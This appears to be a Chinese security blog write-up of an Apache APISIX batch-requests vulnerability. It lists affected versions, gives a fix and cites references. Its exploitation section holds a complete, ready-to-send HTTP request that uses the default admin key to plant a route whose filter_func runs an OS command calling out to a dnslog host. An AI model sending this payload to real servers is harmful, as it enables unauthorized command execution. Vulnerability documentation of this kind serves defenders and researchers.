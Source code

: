 - Apache APISIX 1.3 ~ 2.12.1 之间的所有版本（不包含 2.12.1 ）
- Apache APISIX 2.10.0 ~ 2.10.4 LTS 之间的所有版本 （不包含 2.10.4）



## 漏洞利用

该漏洞与上述`cve`漏洞描述的基本一致，前提也是需要通过绕过授权或未授权的方式，来执行恶意的`route`里的`filter_func`或者`script`来执行命令

- 首先，请求接口`/apisix/batch-requests`抓包

  ![image-20220308134512483](https://gitee.com/greetdawn/blogImages/raw/master/img/202203081345554.png)

- 修改请求数据包如下

  ```shell
  POST /apisix/batch-requests HTTP/1.1
  Host: 47.108.217.193:9080
  Pragma: no-cache
  Cache-Control: no-cache
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: _dd_s=logs=1&id=4b67d638-528a-4391-a32f-8c66fe1a0d70&created=1646716553100&expire=1646718879653
  Connection: close
  Content-Type: application/json
  Content-Length: 460
  
  {"headers":{"X-Real-IP":"127.0.0.1","Content-Type":"application/json"},"timeout":1500,"pipeline":[{"method":"PUT","path":"/apisix/admin/routes/index?api_key=edd1c9f034335f136f87ad84b625c8f1","body":"{\r\n \"name\": \"test\", \"method\": [\"GET\"],\r\n \"uri\": \"/api/greetdawn\",\r\n \"upstream\":{\"type\":\"roundrobin\",\"nodes\":{\"httpbin.org:80\":1}}\r\n,\r\n\"filter_func\": \"function(vars) os.execute('ping qaxol9.dnslog.cn'); return true end\"}"}]}
  ```

- 响应包全为200，请求创建的路由`/api/greetdawn`，成功触发`getshell`

  ![](https://gitee.com/greetdawn/blogImages/raw/master/img/202203081347537.png)

## 漏洞修复

- 该问题目前已在 `2.12.1 `和` 2.10.4` 版本中得到解决，请尽快更新至相关版本
- 修改`conf/config.yaml `和` conf/config-default.yaml `文件显式注释掉 `batch-requests`



# References

- https://xz.aliyun.com/t/10738#toc-3
- https://github.com/apache/apisix-dashboard/blob/561ed377ec2237707bb8c78623e336360c6c6463/api/internal/handler/migrate/migrate.go#L52
- https://www.ctfiot.com/27897.html
- https://github.com/Axx8/CVE-2022-24112



# 安全申明

`本博客主要用于学习记录相关安全事件和漏洞文章，供大家学习交流和测试使用。由于传播、利用该博客文章提供的信息或者工具而造成任何直接或间接的后果及损害，均由使用本人负责，文章作者不为此承担任何责任。`



[官方文档]: https://apisix.apache.org/docs/apisix/architecture-design/script/